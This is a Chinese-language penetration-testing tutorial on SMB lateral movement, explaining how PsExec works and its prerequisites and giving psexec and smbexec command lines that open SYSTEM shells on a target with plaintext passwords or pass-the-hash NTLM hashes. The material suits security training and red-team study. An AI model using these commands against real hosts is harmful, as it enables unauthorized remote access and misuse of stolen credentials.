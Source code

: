 
# [SMB协议利用](#toc_smb_1)

## [psexec](#toc_psexec)

psExec是微软官方提供的一个Windows远程控制工具，可以根据凭据在远程系统上执行管理操作，并且可以获得与命令行几乎相同的实时交互性。该工具在MSF框架中也有集成。

psexec 是 windows 下非常好的一款远程命令行工具。psexec的使用不需要对方主机开方3389端口，只需要对方开启admin$共享 (该共享默认开启)。但是，假如目标主机开启了防火墙，psexec也是不能使用的，会提示找不到网络路径。由于PsExec是Windows提供的工具，所以杀毒软件将其列在白名单中。

**PsExec的基本原理**：

-   通过ipc$连接，释放二进制文件psexecsvc.exe到目标
-   通过服务管理SCManager远程创建一个psexec服务，并启动服务
-   客户端连接执行命令，服务端通过服务启动相应的程序执行命令并回显数据
-   运行结束后删除服务

**psexec的使用前提：**

-   对方主机开启了 admin$ 共享，如果关闭了admin$共享，会提示：找不到网络名
-   对方未开启防火墙或放行445端口
-   如果是工作组环境，则必须使用administrator用户连接（因为要在目标主机上面创建并启动服务），使用其他账号(包括管理员组中的非administrator用户)登录都会提示访问拒绝访问。
-   如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。连接普通域主机可以用普通域用户，连接域控只能用域管理员账户。

用法：

```plain
psexec.exe -accepteula \\192.168.1.131 -u Administrator -p 123qwe@ -s cmd.exe 
# -accepteula 禁止弹出许可证对话框 
# -s 以SYSTEM权限启动进程
```

如果已经建立IPC连接，那么可以直接使用psexec连接远程主机

```plain
psexec.exe -accepteula \\192.168.1.131 -s cmd.exe
```

或者不提取shell，直接用目标系统的cmd.exe的/c选项在目标主机上执行命令，并得到回显（与前面的at命令相似）

```plain
PsExec.exe \\192.168.1.131 <Command>
PsExec.exe \\192.168.1.131 cmd.exe /c "ipconfig"
PsExec.exe \\192.168.1.131 -u Administrator -p 123qwe@ cmd.exe /c "ipconfig"
```

## [smbexec](#toc_smbexec)

**无需先 ipc 链接**， 明文或 hash 传递（第三方库）

```plain
smbexec uf9n1x/administrator:123qwe@@192.168.1.131
smbexec ./administrator:123qwe@@192.168.1.131
smbexec -hashes :$HASH$ ./admin@192.168.1.131
smbbexec -hashes :$HASH$ domain/admin@192.168.1.131
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131
smbexec -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131
```
